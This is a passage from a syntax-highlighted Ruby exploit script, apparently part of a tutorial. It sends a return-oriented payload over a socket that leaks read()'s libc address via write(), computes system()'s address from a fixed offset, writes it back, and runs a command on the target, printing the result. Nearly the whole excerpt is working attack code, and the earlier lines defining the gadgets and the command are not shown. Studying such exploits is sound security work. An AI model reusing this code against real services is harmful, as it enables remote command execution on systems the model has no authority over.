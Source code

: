 ```
<span class="lnr">55 </span>    <span class="Comment"># entry and writes to to stdout</span>
<span class="lnr">56 </span>    <span class="Constant">4</span>,           <span class="Comment"># length of an address</span>
<span class="lnr">57 </span>    read_addr_ptr, <span class="Comment"># address of read()'s .plt entry</span>
<span class="lnr">58 </span>    <span class="Constant">1</span>,           <span class="Comment"># stdout</span>
<span class="lnr">59 </span>    pppr_addr,   <span class="Comment"># retrurn address</span>
<span class="lnr">60 </span>
<span class="lnr">61 </span>    <span class="Comment"># pop/pop/pop/ret's stack frame</span>
<span class="lnr">62 </span>    write_addr,
<span class="lnr">63 </span>
<span class="lnr">64 </span>    <span class="Comment"># read()'s stack frame</span>
<span class="lnr">65 </span>    <span class="Comment"># This reads the command we want to run from the socket and puts it</span>
<span class="lnr">66 </span>    <span class="Comment"># in our writable "buf"</span>
<span class="lnr">67 </span>    cmd.length,  <span class="Comment"># number of bytes</span>
<span class="lnr">68 </span>    buf,         <span class="Comment"># writable memory (cmd buf)</span>
<span class="lnr">69 </span>    <span class="Constant">0</span>,           <span class="Comment"># stdin</span>
<span class="lnr">70 </span>    pppr_addr,   <span class="Comment"># read()'s return address</span>
<span class="lnr">71 </span>
<span class="lnr">72 </span>    read_addr <span class="Comment"># Overwrite the original return</span>
<span class="lnr">73 </span>  ].reverse.pack(<span class="Special">"</span><span class="Constant">I*</span><span class="Special">"</span>) <span class="Comment"># Convert a series of 'ints' to a string</span>
<span class="lnr">74 </span>
<span class="lnr">75 </span><span class="Comment"># Write the 'exploit' payload</span>
<span class="lnr">76 </span>s.write(payload)
<span class="lnr">77 </span>
<span class="lnr">78 </span><span class="Comment"># When our payload calls read() the first time, this is read</span>
<span class="lnr">79 </span>s.write(cmd)
<span class="lnr">80 </span>
<span class="lnr">81 </span><span class="Comment"># Get the result of the first read() call, which is the actual address of read</span>
<span class="lnr">82 </span>this_read_addr = s.read(<span class="Constant">4</span>).unpack(<span class="Special">"</span><span class="Constant">I</span><span class="Special">"</span>).first
<span class="lnr">83 </span>
<span class="lnr">84 </span><span class="Comment"># Calculate the address of system()</span>
<span class="lnr">85 </span>this_system_addr = this_read_addr - read_system_diff
<span class="lnr">86 </span>
<span class="lnr">87 </span><span class="Comment"># Write the address back, where it'll be read() into the correct place by</span>
<span class="lnr">88 </span><span class="Comment"># the second read() call</span>
<span class="lnr">89 </span>s.write([this_system_addr].pack(<span class="Special">"</span><span class="Constant">I</span><span class="Special">"</span>))
<span class="lnr">90 </span>
<span class="lnr">91 </span><span class="Comment"># Finally, read the result of the actual command</span>
<span class="lnr">92 </span>puts(s.read())
<span class="lnr">93 </span>
<span class="lnr">94 </span><span class="Comment"># Clean up</span>
<span class="lnr">95 </span>s.close()
```
